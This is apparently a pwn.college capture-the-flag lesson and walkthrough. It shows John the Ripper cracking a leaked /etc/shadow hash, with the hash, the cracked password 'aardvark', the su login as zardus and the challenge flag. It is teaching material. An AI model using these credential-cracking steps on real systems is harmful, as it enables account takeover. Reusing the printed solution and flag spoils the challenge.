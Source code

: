 If a hacker gets their hands on a leaked `/etc/shadow`, they can start cracking passwords and wreaking havoc. The cracking can be done via the famous `John the Ripper`, as so:

```
hacker@dojo:~$ john ./my-leaked-shadow-file
Loaded 1 password hash (crypt, generic crypt(3) [?/64])
Will run 32 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password1337      (zardus)
1g 0:00:00:22 3/3 0.04528g/s 10509p/s 10509c/s 10509C/s lykys..lank
Use the "--show" option to display all of the cracked passwords reliably
Session completed
hacker@dojo:~$
```

Here, John the Ripper cracked Zardus' leaked password hash to find the real value of `password1337`. Poor Zardus!

### CTF

```
hacker@users~cracking-passwords:~$ cat /challenge/shadow-leak
root:*:19873:0:99999:7:::
daemon:*:19873:0:99999:7:::
bin:*:19873:0:99999:7:::
sys:*:19873:0:99999:7:::
sync:*:19873:0:99999:7:::
games:*:19873:0:99999:7:::
man:*:19873:0:99999:7:::
lp:*:19873:0:99999:7:::
mail:*:19873:0:99999:7:::
news:*:19873:0:99999:7:::
uucp:*:19873:0:99999:7:::
proxy:*:19873:0:99999:7:::
www-data:*:19873:0:99999:7:::
backup:*:19873:0:99999:7:::
list:*:19873:0:99999:7:::
irc:*:19873:0:99999:7:::
gnats:*:19873:0:99999:7:::
nobody:*:19873:0:99999:7:::
_apt:*:19873:0:99999:7:::
hacker::20000:0:99999:7:::
zardus:$6$I4qF.BP933gHHCzJ$Vu5Bapjc7lwWfsSAg35oB6rswT8LIGQAkmA.kE17GrI9FBA3QdouAZu.rPt.kanWUA6d8gYCPSpb8CJJqg/h./:20013:0:99999:7:::
hacker@users~cracking-passwords:~$ john /challenge/shadow-leak
Loaded 1 password hash (crypt, generic crypt(3) [?/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:14 0% 2/3 0g/s 287.5p/s 287.5c/s 287.5C/s Alexis..bigred
aardvark         (zardus)
1g 0:00:00:20 100% 2/3 0.04897g/s 285.1p/s 285.1c/s 285.1C/s Johnson..buzz
Use the "--show" option to display all of the cracked passwords reliably
Session completed
hacker@users~cracking-passwords:~$ su zardus
Password:
zardus@users~cracking-passwords:/home/hacker$ /challenge/run
Congratulations, you have become Zardus! Here is your flag:
pwn.college{EO4ewdbbg-1KAxryqbTRTZcN96c.ddTN0UDL5kTO0czW}
```

---